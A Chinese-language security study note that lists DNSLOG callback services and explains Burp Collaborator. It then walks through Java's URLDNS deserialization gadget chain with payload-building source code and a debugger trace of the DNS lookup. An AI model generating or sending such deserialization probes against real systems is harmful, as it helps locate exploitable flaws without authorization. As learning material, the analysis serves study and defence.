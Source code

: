 ## DNSLOG平台

在线平台

> http://dnslog.cn
>
> http://ceye.io

burp-dnslog

使用方法：打开burpsuite，选择`project options`选择`misc`分类

![image-20230530150812250](img/image-20230530150812250.png)

随后选择顶部工具栏中的Burp，选择`Burp Collaborator client`

![image-20230530151021991](img/image-20230530151021991.png)

将dnslog的url地址复制出来使用。

应用

![image-20230530153151697](img/image-20230530153151697.png)

无dnslog

> https://github.com/r00tSe7en/JNDIMonitor

该项目可脱离dnslog平台监听LDAP请求，下载项目源代码在本地进行编译。

![image-20230530161724153](img/image-20230530161724153.png)

## URLDNS分析

```java
package com.ft.urldns;

import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class urldns {
    public static void main(String[] args) throws Exception {
        HashMap hashMap = new HashMap();
        URL url = new URL("http://g9qo5xr8nq9ypo3ovvvh1hj9q0wqkf.burpcollaborator.net");
        Class c = url.getClass();
        Field hashcodefile = c.getDeclaredField("hashCode");
        hashcodefile.setAccessible(true);
        hashcodefile.set(url,1234);
        hashMap.put(url, 1);
        hashcodefile.set(url,-1);
        serialize(hashMap);
//        unserialize("urldns.bin");
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("urldns.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

打上断点进行调试，这里的dnslog平台使用的burpsuite自带的，比较方便。

利用链展示

```
HashMap.readbject()
	HashMap.putVal()
		HashMap.hash()
			URL.hashCode()
```

先在HashMap#readObject下的putVal处下一个断点，走到这里的时候可以看到传入的url为key值。

![image-20230530163934823](img/image-20230530163934823.png)

进入到URL#hashCode()中，不满足if的条件（`hashCode=-1`），所以进入了java.net.URLStreamHandler#hashCode()中

![image-20230530164417669](img/image-20230530164417669.png)

随后进入调用getHostAddress()，传入的参数值u是我的dnslog地址

![image-20230530164516577](img/image-20230530164516577.png)

最后执行了一个查询操作，将一个字符串类型的主机名 (host) 转换为对应的 IP 地址。

![image-20230530165606714](img/image-20230530165606714.png)

链子很短，流程也比较简单，这个应该是在看CC链之前学的基础，只是之前在看的时候没有将其记录下来，于是又简单的记了一下。